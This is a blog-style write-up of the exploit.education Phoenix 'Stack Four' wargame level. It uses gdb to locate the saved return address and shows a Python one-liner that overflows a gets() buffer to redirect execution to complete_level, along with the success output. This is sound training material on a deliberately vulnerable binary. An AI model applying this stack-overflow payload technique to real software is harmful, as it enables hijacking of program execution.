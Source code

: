 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 4

Write-up for: [Stack Four](https://exploit.education/phoenix/stack-four/)

<!--more-->

The goal is to redirect execution to `complete_level` by overflowing the saved instruction pointer.

Analyzing the binary / source reveals a stack buffer overflow in the start_level function. 

```c
char buffer[64];
void *ret;

gets(buffer);
```

This means by providing a buffer larger than 64 bytes, we can overflow the saved instruction pointer. The question is, where exactly is it relative to the buffer?

To find this out we run the binary with gdb, feed it exactly 64 bytes of input data, and look at the stack at the end of `complete_level`.

```
python -c 'print "A"*64' > ~/64_bytes
gdb stack-four
break *start_level+46
r < ~/64_bytes
x/x32w $esp

0xffffd5a0:     0xf7ffb1e0      0xffffd5bf      0x00000001      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x41414141      0x0804855c
0xffffd5f0:     0x08048610      0x00000000      0xffffd608      0x0804855c
0xffffd600:     0x00000000      0xffffd620      0xffffd69c      0xf7f8f654
0xffffd610:     0xffffd694      0x00000001      0xffffd69c      0xf7f8f654
```

As we can see, right after our buffer is the local variable `ret`which contains the return address `0x0804855c` which we also see one row below. This means the stored instruction pointer is at offfset `sizeof(buffer) + 16`.

After getting the address of complete_level via objdump, exploitation is trivial.

```
ser@phoenix-amd64:/opt/phoenix/i486$ objdump -t stack-four | grep complete_level
080484e5 g     F .text  00000020 complete_level
```

# Exploit

1. Overflow buffer
2. add 16 bytes of padding
3. Overwrite EIP with address of complete_level

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64+ "B"*16+"\x08\x04\x84\xe5"[::-1]' | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
